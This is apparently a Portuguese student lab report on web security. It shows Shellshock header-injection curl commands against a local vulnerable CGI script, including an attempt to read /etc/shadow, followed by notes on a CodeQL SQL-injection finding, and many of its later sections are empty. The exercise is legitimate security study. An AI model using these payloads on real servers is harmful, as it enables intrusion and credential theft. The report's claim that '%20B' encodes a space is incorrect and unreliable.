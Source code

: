 # Module 2

-------


# Parte A

## Exercise 2
### Ponto a) 
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_a_1.png "Código com espaços")

### Ponto b)
    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_b_1.png "Código com espaços")

### Ponto c)
Para testar, tentou-se ler primeiro um ficheiro "ficheiro2" com texto no seu conteudo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Depois, correu-se o mesmo código para o ficheiro pretendido

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi

A figura abaixo apresenta os resultados.

![alt text](parte1_ex2_c_1.png "Código com espaços")

Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos.
No segundo código, nada foi apresentado.
Para garantir que o ficheiro tinha conteudo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra a imagem abaixo.

![alt text](parte1_ex2_c_2.png "Código com espaços")

Para também se entender as permissões de leitura e escrita deste ficheiro, correu-se um código para obter o USER atual, e outro para obter as permissões do ficheiro.

![alt text](parte1_ex2_c_3.png "Código com espaços")

O que se pode observar é que o ficheiro necessita de permissões de root, mas o apache corre numa conta de user e não como root.



### Ponto d)
Não porque uma web url não aceita espaços, como no exemplo da figura abaixo, em que foi corrido o seguinte código:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm /tmp/ficheiro

![alt text](parte1_ex2_d_1.png "Código com espaços")

Como podemos observar, os espaços são ignorados, e o sistema apenas lê o que está antes dos espaços.

Para tal, necessitamos de converter o espaço num código, sendo o espaço representado pelo código %20B.
Assim, o código fica:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm%20B/tmp/ficheiro

O resultado é apresentado na figura abaixo.
![alt text](parte1_ex2_d_2.png "Código com espaços")

O problema neste caso é que o bash não converte este código num espaço literal.

Pelas razões acima referidas e como foi possivel observar, não é possivel fazer o ataque através dos parâmetros.



# Parte B

## Static analysis

### Ponto 2
Neste ponto 
Verificar a Github Action para correr a plataforma CWE analytics do CodeQL é executada quando há um evento de push no repositório. Nos sub pontos a e b o CodeQL irá ser atualizado ao mudar a descrição do Workflow.
#### a)
Nas imagens abaixo é possivel verificar as alterações da versão de action 1 para a versão 2:

![alt text](parte2_ex_2_a_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_a_2.jpeg "Código com espaços")


#### b)
Nas imagens abaixo é possivel verificar a adição do código do workflow trigger.

![alt text](parte2_ex_2_b_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_b_2.jpeg "Código com espaços")


### Ponto 3

Após executar a action e analisar os logs de output foi encontrado o comando da imagem abaixo utilizado pelo CodeQL Action para inicializar a base de dados de code analysis. 

![alt text](parte2_ex3.png "Código com espaços")


### Ponto 4

Neste ponto irá ser explorada a vulnerabilidade CWE-89. No code scanning da security está presente uma listagem das diferentes vulnerabilidades detetadas na aplicação com nível decrescente de vulnerabilidade. 

Como se pode observar na imagem seguinte foi pesquisada a entrada “Database query built from user-controlled sources” que apresenta uma lista de diversos ficheiros. 

![alt text](parte2_ex4_1.jpeg "Código com espaços")

O ficheiro que iremos explorar é denominado search.ts 

![alt text](parte2_ex4_2.jpeg "Código com espaços")


![alt text](parte2_ex4_3.jpeg "Código com espaços")
*image_caption*


Justify why CodeQL identified this code
as vulnerable. Include source and sink information. (more information about SQL Injection can
be found here https


### Ponto 5


## Dynamic analysis

### Ponto 6
![alt text](parte2_ex6.png "Código com espaços")


### Ponto 7
![alt text](parte2_ex7.png "Código com espaços")




### Ponto 8
![alt text](parte2_ex8_1.png "Código com espaços")

![alt text](parte2_ex8_2.png "Código com espaços")


### Ponto 9
#### a)

#### b)


### Ponto 10


### Ponto 11


### Ponto 12


### Ponto 13


### Ponto 14

